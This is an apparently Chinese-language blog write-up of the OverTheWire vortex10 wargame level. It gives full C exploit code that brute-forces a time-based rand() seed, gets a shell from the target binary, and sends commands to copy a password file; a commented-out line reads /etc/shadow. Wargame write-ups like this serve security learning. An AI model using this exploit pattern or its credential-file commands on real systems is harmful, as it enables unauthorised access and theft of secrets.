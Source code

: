 ```yaml
---
title: vortex10
author: rk700
layout: post
redirect_from: /writeup/2014/07/17/vortex10
tags:
  - OverTheWire
  - linux
---
```

由于`time(0)`的值的大致范围是知道的，关键就是v12的值。这里`v12>>31`会得到0xffffffff或是0x0，接下来的`>>24`就会得到0xff或是0x0。于是最终范围在128-256=-128与128+256=384之间，可以穷举出来。

另一方面，我们要读他的数，并反馈。与vortex0类似，我还是不知道怎么用shell, fifo等完成。于是在c程序里fork，并用`pipe`和`dup2`等来进行父进程、子进程的数据传输。

但最后的问题是，得到shell之后如何与其交互？试了好几种方法都不行。最后在我的机子上可以再将命令从父程序通过pipe送到子程序，再输出结果。不过在ssh那里想要cat文件内容不成功，最后只好install把密码文件复制一份 

{% highlight c %}
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <time.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
    /* parent --(fd1)--> child
     * child  --(fd2)--> parent */
    int fd1[2], fd2[2];
    pipe(fd1);
    pipe(fd2);

    pid_t pid = fork();
    if(pid==0) {
        close(fd1[1]);
        dup2(fd1[0], 0);
        close(fd2[0]);
        dup2(fd2[1], 1);
        execl("./vortex10", NULL);
    }

    time_t nowT = time(0);

    close(fd1[0]);
    close(fd2[1]);

    char buf[256];
    unsigned int input[20];
    
    ssize_t numRead = 0;
    while(numRead < 202) {
        numRead += read(fd2[0], buf+numRead, sizeof buf);
    }

    fprintf(stderr, "%d bytes read\n", numRead);
    int match = sscanf(buf, "[ %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x, %x,]",
            input+0, input+1, input+2, input+3, input+4, input+5, input+6, input+7, input+8, 
            input+9, input+10, input+11, input+12, input+13, input+14, input+15, input+16, input+17, 
            input+18, input+19);

    if(match != 20) {
        fprintf(stderr, "read error\n");
        fprintf(stderr, "%s\n", buf);
        return 1;
    }

    int i, j, k;

    time_t now;
    for(k=0; k<4; ++k) {
        now = nowT - k; 
        for(i=-128; i<384; ++i) {
            srand(now+i);
            for(j=0; j<i; ++j)
                rand();
            for(j=0; j<20; ++j) {
                if(rand() != input[j])
                    break;
            }
            if(j == 20) {
                j += now;
                fprintf(stderr, "hit, time is %d, i is %d\n", now, i);
                unsigned int ans = now+i;
                write(fd1[1], &ans, 4);
                char *cmd = "install -m444 /etc/vortex_pass/vortex11 /tmp/nabla\n";
                //char *cmd = "cat /etc/shadow\n";
                write(fd1[1], cmd, strlen(cmd));
                numRead = read(fd2[0], buf, sizeof(buf));
                buf[numRead] = 0;
                fprintf(stderr, "%s\n", buf);
                break;
            }
        }
    }
    fprintf(stderr, "end\n");
    //dup2(0, fd1[1]);
    //dup2(1, fd2[0]);

    int status;
    waitpid(pid, &status, 0);
    return 0; 

}
{% endhighlight %}
